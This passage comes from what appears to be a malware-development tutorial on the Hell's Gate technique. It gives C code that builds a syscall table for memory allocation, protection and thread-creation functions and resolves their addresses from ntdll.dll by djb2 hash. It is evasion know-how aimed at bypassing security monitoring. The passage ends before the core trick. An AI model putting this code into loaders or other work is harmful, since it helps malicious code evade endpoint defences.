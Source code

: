 ```
typedef struct _VX_TABLE {
	VX_TABLE_ENTRY NtAllocateVirtualMemory;
	VX_TABLE_ENTRY NtProtectVirtualMemory;
	VX_TABLE_ENTRY NtCreateThreadEx;
	VX_TABLE_ENTRY NtWaitForSingleObject;
} VX_TABLE, * PVX_TABLE;

```
### **Main Function**

The main function starts by calling the [RtlGetThreadEnvironmentBlock](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L50) function that is used to get the TEB. This is required to retrieve `ntdll.dll`'s base address via the PEB (recall the PEB is located within the TEB). Next, the export directory of `ntdll.dll` is fetched using [GetImageExportDirectory](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L60). The export directory is found by parsing the `DOS` and `Nt` headers, as demonstrated in previous modules.

Next, for each syscall the `dwHash` member is initialized (e.g. `NtAllocateVirtualMemory.dwHash`) with its corresponding hash value. With each initialization, the [GetVxTableEntry](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L65) function is called, which is shown below. The function has been split into several parts to simplify the explanation process.

**GetVxTableEntry - Part 1**


```
BOOL GetVxTableEntry(PVOID pModuleBase, PIMAGE_EXPORT_DIRECTORY pImageExportDirectory, PVX_TABLE_ENTRY pVxTableEntry) {
	PDWORD pdwAddressOfFunctions    = (PDWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfFunctions);
	PDWORD pdwAddressOfNames        = (PDWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfNames);
	PWORD pwAddressOfNameOrdinales  = (PWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfNameOrdinals);

	for (WORD cx = 0; cx < pImageExportDirectory->NumberOfNames; cx++) {
		PCHAR pczFunctionName  = (PCHAR)((PBYTE)pModuleBase + pdwAddressOfNames[cx]);
		PVOID pFunctionAddress = (PBYTE)pModuleBase + pdwAddressOfFunctions[pwAddressOfNameOrdinales[cx]];

		if (djb2(pczFunctionName) == pVxTableEntry->dwHash) {
			pVxTableEntry->pAddress = pFunctionAddress;

			// ...
		}
	}

	return TRUE;
}


```
Part one of the function searches for a Djb2 hash value equal to the syscall's hash, `pVxTableEntry->dwHash`. Once there is a match then the address of the syscall will be saved to `pVxTableEntry->pAddress`. The second part of the function is where the Hell's Gate trick resides.
